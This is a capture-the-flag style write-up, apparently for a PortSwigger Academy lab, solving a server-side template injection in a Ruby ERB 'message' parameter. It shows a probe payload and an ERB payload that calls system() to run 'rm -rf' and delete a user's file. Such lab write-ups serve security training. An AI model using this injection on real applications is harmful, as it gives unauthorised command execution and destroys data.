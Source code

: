 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5b17ef65-a3ef-4390-aa1b-69f5911f3586)

## Solution :

When we load the firest image in the website , we get the message that the *product is out of stock*

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cac628eb-2b0c-47cf-b014-04baad860f0c)

The following is the GET request that was sent to us,

```http
GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/2
Host: 0ae800e104787954807bcde700900037.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ae800e104787954807bcde700900037.web-security-academy.net/
Cookie: session=sfkb71a43M50TVtVZ8WBBtMftYCQ6Qwi
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

Since the lab says it is an **ERB** template, we can test if it is vulnerable by trying the following payload - `<%=..%>`

It throws an error response as expected.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/eb63ac7a-3aaf-44a7-932c-f055eb7c0d07)

Now we can try to run commands using the ERB template syntax & delete the *morale.txt* from carlos's home directory.

Payload used - 
```erb
<%= system('rm -rf /home/carlos/morale.txt') %>
```

Once we send this payload, the morale.txt file is deleted & the lab is solved.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/041ee417-6d45-42c2-9576-009e025e55ce)
